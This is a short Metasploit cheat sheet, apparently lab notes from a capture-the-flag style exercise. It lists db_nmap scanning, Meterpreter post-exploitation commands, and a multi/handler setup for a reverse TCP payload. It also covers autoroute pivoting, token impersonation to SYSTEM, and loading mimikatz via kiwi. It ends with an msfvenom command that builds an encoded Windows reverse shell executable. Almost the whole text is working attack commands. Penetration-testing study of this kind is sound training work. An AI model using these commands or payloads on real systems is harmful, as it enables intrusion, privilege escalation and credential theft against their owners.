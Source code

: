# Metasploit

db_nmap -sV 10.10.134.20
> hosts
> services

## Meterpreter

Getting info
	sysinfo
	ps
	getuid
	getgid
	getprivs -> Get all privileges of the current user
	upload -> transfer files
	ipconfig -> get network information

Post
	migrate PID -> Poison another process
	load kiwi -> load the last mimikatz version
	run -> Executes a meterpreter script or Post module

Search files
	search -f root.flag

Background the session
	bg

Using powershell
	load powershell
	powershell_shell

run post/windows/gather/checkvm -> Check if target is a virtual machine
run post/multi/recon/local_exploit_suggester -> check for various explotis
run post/windows/manage/enable_rdp -> tries to enable rdp

### Listen session as ncat
use exploit/multi/handler
set Payload windows/meterpreter_reverse_tcp 
set lhost 10.9.186.161
run
### Networking
run autoroute -h
run autoroute -s 172.18.1.0 -n 255.255.255.0 -> What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.

### Impersonate token
	load incognito
	list_tokens -g
	impersonate_token "BUILTIN\Administrators"
	getuid -> NT AUTHORITY\SYSTEM


## MSFVenom

msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=10.9.186.161 LPORT=8877 -b "\x00" -e x86/shikata_ga_nai -f exe -o mtprt.exe





